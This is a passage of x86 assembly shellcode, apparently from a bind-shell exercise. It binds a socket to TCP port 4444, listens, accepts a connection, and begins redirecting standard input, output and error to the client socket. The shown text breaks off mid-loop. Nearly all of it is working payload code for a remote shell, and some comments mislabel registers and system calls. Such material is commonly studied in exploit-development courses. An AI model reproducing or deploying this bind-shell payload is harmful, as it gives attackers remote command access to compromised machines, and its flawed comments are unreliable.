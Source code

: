 ```nasm
;       ARG[0]               ARG[1]                          ARG[2]
;<socketcall>   bind(ipv4Socket, (struct sockaddr*) &ipSocketAddr, sizeof(ipSocketAddr));  
;  EAX=0x66      EBX   ECX[0]                   ECX[1]                   ECX[2]
xor eax, eax      ; This sets the EAX Register to NULL (all zeros).
mov al, 0x66      ; EAX is now 0x00000066 = SYSCALL 102 - socketcall
xor ebx, ebx      ; This sets the EBX Register to NULL (all zeros).
mov bl, 0x2       ; EBX is set to create a socket
xor edx, edx      ; This sets the EDX Register to NULL (all zeros).
push edx          ; ARG[2]. EDX is NULL, the value needed for INADDR_ANY.
push word 0x5c11  ; ARG[1]. This is for the TCP Port 4444.
push bx           ; ARG[0]. Push the value 2 onto the stack, needed for AF_INET.
xor ecx, ecx      ; This sets the EAX Register to NULL (all zeros).
mov ecx, esp      ; Save the memory location of ARG[0] into the EDX Register. 
                  ;   We will use this for ECX[1].
push 0x10         ; ECX[2]. Our Struct of ARG's is now 16 bytes long (0x10 in Hex). 
push ecx          ; ECX[1]. The pointer to the beginning of the struct we saved is now 
                  ;   loaded up for ECX[1].
push esi          ; ECX[0]. This is the value we saved from creating the Socket earlier. 
mov ecx, esp      ; Now we need to point ECX to the top of the loaded stack.
int 0x80          ; System Call Interrupt 0x80

; 4. Listen for incoming connections on TCP-IP Socket.
; <socketcall>   listen( ipv4Socket, 0 );  
;   EAX=0x66      EBX      ECX[0]   ECX[1]  
xor eax, eax     ; This sets the EAX Register to NULL (all zeros).
mov al, 0x66     ; EAX is now 0x00000066 = SYSCALL 102 - socketcall
xor ebx, ebx     ; This sets the EBX Register to NULL (all zeros).
mov bl, 0x4      ; EBX is set to listen().
xor ecx, ecx     ; This sets the ECX Register to NULL (all zeros).
push ecx         ; ECX[1]. Push the value 0x0 to the stack.
push esi         ; ECX[0]. This is the value we saved from creating the Socket earlier. 
mov ecx, esp     ; Point ECX to the top of the stack. 
int 0x80         ; Executes listen(). Allowing us to handle incoming TCP-IP Connections.

; 5. Accept the incoming connection, and create a connected session.
; <socketcall>   clientSocket = accept( ipv4Socket, NULL, NULL ); 
;   EAX=0x66                     EBX     ECX[0]    ECX[1] ECX[2] 
xor eax, eax     ; This sets the EAX Register to NULL (all zeros).
mov al, 0x66     ; EAX is now 0x00000066 = SYSCALL 102 - socketcall 
xor ebx, ebx     ; This sets the EBX Register to NULL (all zeros).
mov bl, 0x5      ; EBX is set to accept().
xor ecx, ecx     ; This sets the ECX Register to NULL (all zeros).
push ecx         ; ECX[2]. Push the value 0x0 to the stack.
push ecx         ; ECX[1]. Push the value 0x0 to the stack.
push esi         ; ECX[0]. This is the value we saved from creating the Socket earlier.
mov ecx, esp     ; Point ECX to the top of the stack.
int 0x80         ; System Call Interrupt 0x80 
xchg ebx, eax    ; The created clientSocket is stored in EAX after receiving a connection.

; 5. Transfer STDIN, STDOUT, STDERR to the connected Socket.
; dup2( clientSocket, 0 ); // STDIN 
; dup2( clientSocket, 1 ); // STDOUT
; dup2( clientSocket, 2 ); // STDERR
; EAX       EBX      ECX
xor eax, eax   ; This sets the EAX Register to NULL (all zeros).
xor ecx, ecx   ; This sets the ECX Register to NULL (all zeros).
mov cl, 0x2    ; This sets the loop counter, and
               ;  will also be the value of "int newfd" for the 3 dup2 SYSCAL's.
dup2Loop:      ; Procedure label for the dup2 Loop.
mov al, 0x3f   ; EAX is now 0x0000003F = SYSCALL 63 - dup2
int 0x80       ; System Call Interrupt 0x80 - Executes accept(). 
               ;   Allowing us to create connected Sockets. 
dec ecx        ; Decrements ECX by 1 
```

[1]: 1
[1]: 1